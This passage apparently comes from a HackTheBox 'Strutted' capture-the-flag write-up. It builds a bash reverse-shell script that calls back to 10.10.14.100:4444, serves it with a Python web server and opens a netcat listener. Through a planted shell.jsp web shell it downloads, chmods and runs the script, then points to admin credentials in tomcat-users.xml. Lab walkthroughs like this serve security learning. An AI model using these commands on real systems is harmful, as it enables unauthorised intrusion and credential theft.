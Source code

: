 Now we need to gain a reverse shell which is possible what we know now. We need to upload a reverse shell script to the target. Create a file with the following command:

`echo -ne '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/10.10.14.100/4444 0>&1"' > bash.sh`

`echo -ne`: -n: no new line on the end, -e: interpreter escape-sequencies such as \n
`#!/bin/bash`:	Shebang → make the file executable as bash-script
`\n`:	A new rule between shebang and the rest of the script
`bash -c "..."`:	Let’s bash run a commando as a string
`bash -i >& /dev/tcp/10.10.14.100/4444 0>&1`:	Reverse shell to your IP (10.10.14.100) on port 4444

`bash.sh`	Writes the output to a new file bash.sh

After that, start a python web server:

`python3 -m http.server 80` 

In a new terminal run a Netcat listener:

`nc -lvvp 4444` 

From the website execute the following commands:

`http://strutted.htb/shell.jsp?action=cmd&cmd=wget+10.10.14.100/bash.sh+-O+/tmp/bash.sh`

`http://strutted.htb/shell.jsp?action=cmd&cmd=chmod+777+/tmp/bash.sh`

`http://strutted.htb/shell.jsp?action=cmd&cmd=/tmp/bash.sh`

<img src='/images/HTB_Strutted/image 15.png'>

<img src='/images/HTB_Strutted/image 16.png'>

We gained the shell. After enumerating the files, in the /conf/tomcat-users.xml file are usernames and a password of the admin user that should have been changed:

<img src='/images/HTB_Strutted/image 17.png'>
